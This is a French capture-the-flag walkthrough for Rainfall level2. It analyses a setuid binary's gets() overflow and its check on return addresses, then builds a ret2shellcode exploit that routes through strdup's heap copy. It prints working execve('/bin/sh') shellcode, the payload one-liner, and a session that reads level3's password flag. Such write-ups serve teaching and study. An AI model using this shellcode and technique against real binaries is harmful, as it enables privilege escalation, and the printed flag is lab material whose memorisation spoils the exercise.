


# Walkthrough — Rainfall : Level2

## Objectif

Obtenir le mot de passe du `level3` en exploitant le binaire `level2`, qui est setuid `level3`. On doit exécuter un shell avec les droits de `level3` pour lire `/home/user/level3/.pass`.

---

## 1. Reconnaissance

### Comportement à l'exécution

```bash
$ ./level2
AAA            ← on tape quelque chose
AAA            ← le programme répète notre input
$              ← le programme se termine
```

Le programme attend une entrée, la répète, puis se termine.

### Trace des appels système

```bash
$ ltrace ./level2
gets(0xbffff6cc, ...)     ← lit stdin sans limite de taille
puts("AAA")               ← répète l'input
strdup("AAA")             ← copie l'input sur le heap
```

Trois fonctions clés :
- `gets()` → vulnérabilité de buffer overflow
- `puts()` → affiche le buffer
- `strdup()` → copie le buffer sur le heap (important pour l'exploit)

---

## 2. Analyse statique avec gdb

### Désassemblage de `main`

```asm
0x0804853f <+0>:   push   %ebp
0x08048540 <+1>:   mov    %esp,%ebp
0x08048542 <+3>:   and    $0xfffffff0,%esp   ← alignement stack
0x08048545 <+6>:   call   0x80484d4 <p>      ← appelle p()
0x0804854a <+11>:  leave
0x0804854b <+12>:  ret
```

`main` ne fait qu'appeler `p()`. Toute la logique est dans `p()`.

### Désassemblage de `p`

```asm
0x080484d4 <+0>:    push   %ebp
0x080484d5 <+1>:    mov    %esp,%ebp
0x080484d7 <+3>:    sub    $0x68,%esp              ← alloue 104 bytes sur la stack
0x080484da <+6>:    mov    0x8049860,%eax
0x080484df <+11>:   mov    %eax,(%esp)
0x080484e2 <+14>:   call   0x80483b0 <fflush@plt>  ← vide le buffer stdout
0x080484e7 <+19>:   lea    -0x4c(%ebp),%eax        ← buffer à ebp-76
0x080484ea <+22>:   mov    %eax,(%esp)
0x080484ed <+25>:   call   0x80483c0 <gets@plt>    ← lit stdin dans le buffer (pas de limite)
0x080484f2 <+30>:   mov    0x4(%ebp),%eax          ← lit l'adresse de retour (ebp+4)
0x080484f5 <+33>:   mov    %eax,-0xc(%ebp)         ← la sauvegarde localement
0x080484f8 <+36>:   mov    -0xc(%ebp),%eax
0x080484fb <+39>:   and    $0xb0000000,%eax        ← garde les 4 premiers bits
0x08048500 <+44>:   cmp    $0xb0000000,%eax        ← commence par 0xb ?
0x08048505 <+49>:   jne    0x8048527 <p+83>        ← non → continue (safe)
                                                   ← oui → _exit (bloqué)
0x08048507 <+51>:   mov    $0x8048620,%eax
0x0804850c <+56>:   mov    -0xc(%ebp),%edx
0x0804850f <+59>:   mov    %edx,0x4(%esp)
0x08048513 <+63>:   mov    %eax,(%esp)
0x08048516 <+66>:   call   0x80483a0 <printf@plt>  ← affiche l'adresse suspecte
0x0804851b <+71>:   movl   $0x1,(%esp)
0x08048522 <+78>:   call   0x80483d0 <_exit@plt>   ← mort du programme
0x08048527 <+83>:   lea    -0x4c(%ebp),%eax        ← buffer
0x0804852a <+86>:   mov    %eax,(%esp)
0x0804852d <+89>:   call   0x80483f0 <puts@plt>    ← affiche le buffer
0x08048532 <+94>:   lea    -0x4c(%ebp),%eax        ← buffer
0x08048535 <+97>:   mov    %eax,(%esp)
0x08048538 <+100>:  call   0x80483e0 <strdup@plt>  ← copie le buffer sur le heap
0x0804853d <+105>:  leave
0x0804853e <+106>:  ret                            ← saute vers l'adresse de retour
```

### La protection : vérification de l'adresse de retour

Après `gets()`, le programme lit l'adresse de retour (`ebp+4`) et vérifie si elle commence par `0xb` :

```asm
and $0xb0000000,%eax     → garde seulement les 4 premiers bits
cmp $0xb0000000,%eax     → compare avec 0xb0000000
jne → si différent → continue
    → si pareil   → _exit
```

Résultat :

| Zone mémoire | Adresse        | Autorisé ? |
|---|---|---|
| Stack         | `0xbffff...`   | Non ❌     |
| Heap libc     | `0xb7e...`     | Non ❌     |
| Code binaire  | `0x08048...`   | Oui ✅     |
| Heap malloc   | `0x0804a...`   | Oui ✅     |

`system()` est à `0xb7e6b060` et il n'y a pas de `system@plt` dans ce binaire → on ne peut pas faire un simple return-to-libc.

---

## 3. La vulnérabilité

### Disposition de la pile pendant `p()`

```
[ebp+4]  → adresse de retour   ← cible : on l'écrase
[ebp+0]  → saved EBP (4 oct)   ← à traverser (junk)
[ebp-76] → début du buffer     ← gets() écrit ici (ebp-0x4c)
```

Distance du buffer à l'adresse de retour : **76 + 4 = 80 bytes**.

### Micro-schéma : ce qu'on traverse



Correspondance avec le payload :



> 80 octets à traverser = buffer (76) + saved ebp (4), puis l'adresse de retour.
> Payload : 23 (shellcode) + 57 (A) = 80, puis `@heap`.

---

## 4. Le plan d'attaque : ret2shellcode via strdup

Puisque les adresses en `0xb` sont bloquées, on ne peut pas sauter vers la stack directement. Mais `strdup()` copie le buffer sur le heap, dont l'adresse commence par `0x0804...` → passe la vérif.

**Le plan :**

```
1. Mettre du shellcode au début du buffer
          ↓
2. strdup copie le shellcode sur le heap (0x0804a008)
          ↓
3. Écraser l'adresse de retour avec 0x0804a008
   → la vérif voit 0x0804... → laisse passer ✅
          ↓
4. ret saute sur le heap → exécute le shellcode → shell
```

### Trouver l'adresse heap

```bash
(gdb) break *0x0804853e
(gdb) run
(tape n'importe quoi)
(gdb) info registers eax
eax  0x804a008    ← adresse heap retournée par strdup
```

Sans ASLR, cette adresse est toujours `0x0804a008`.

### Le shellcode

Shellcode 23 bytes qui exécute `execve("/bin/sh", NULL, NULL)` :

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\x89\xc1\xb0\x0b\xcd\x80
```

En assembleur :
```asm
xor  %eax,%eax        → eax = 0
push %eax             → pousse \0 (fin de string)
push $0x68732f2f      → pousse "//sh"
push $0x6e69622f      → pousse "/bin"
mov  %esp,%ebx        → ebx = "/bin//sh"
mov  %eax,%ecx        → ecx = NULL
mov  %eax,%edx        → edx = NULL
mov  $0xb,%al         → numéro du syscall execve
int  $0x80            → appel système → shell
```

---

## 5. L'exploit

### Schéma du payload

```
[ shellcode (23 oct) ][ A*57 (57 oct) ][ adresse heap (4 oct) ]
        ↑                    ↑                    ↑
  début du buffer       remplit jusqu'à      écrase l'adresse
  (ebp-76)              l'adresse de retour  de retour
  23 + 57 = 80 bytes (buffer 76 + saved EBP 4)
```

### Génération du payload

```bash
python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc2\x89\xc1\xb0\x0b\xcd\x80" + "A"*57 + "\x08\xa0\x04\x08"' > /tmp/pay
```

- shellcode (23 bytes) + `A`×57 = 80 bytes de padding
- `\x08\xa0\x04\x08` → adresse `0x0804a008` en little-endian

### Lancement

```bash
cat /tmp/pay - | ./level2
```

### Résultat

```bash
$ cat /tmp/pay - | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  ← puts() affiche le buffer
whoami
level3                                               ← on est level3 !
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

## 6. Récapitulatif des techniques

| Concept | Application ici |
|---|---|
| **Buffer overflow** | `gets()` permet d'écrire au-delà du buffer |
| **Vérification d'adresse** | Le programme bloque les adresses en `0xb` |
| **ret2shellcode** | On injecte notre propre code dans le buffer |
| **strdup comme pivot** | strdup copie le shellcode vers une adresse autorisée |
| **Little-endian** | `0x0804a008` s'écrit `\x08\xa0\x04\x08` |
| **Setuid exploitation** | Le shell hérite des droits de `level3` |

---

## 7. Différence avec le level1

| | Level1 | Level2 |
|---|---|---|
| Vulnérabilité | `gets()` | `gets()` |
| Protection | Aucune | Bloque adresses en `0xb` |
| Technique | Return-to-function (`run`) | ret2shellcode via `strdup` |
| Shellcode | Non (fonction existante) | Oui (injecté dans le buffer) |
| Adresse cible | `0x08048444` (run) | `0x0804a008` (heap) |

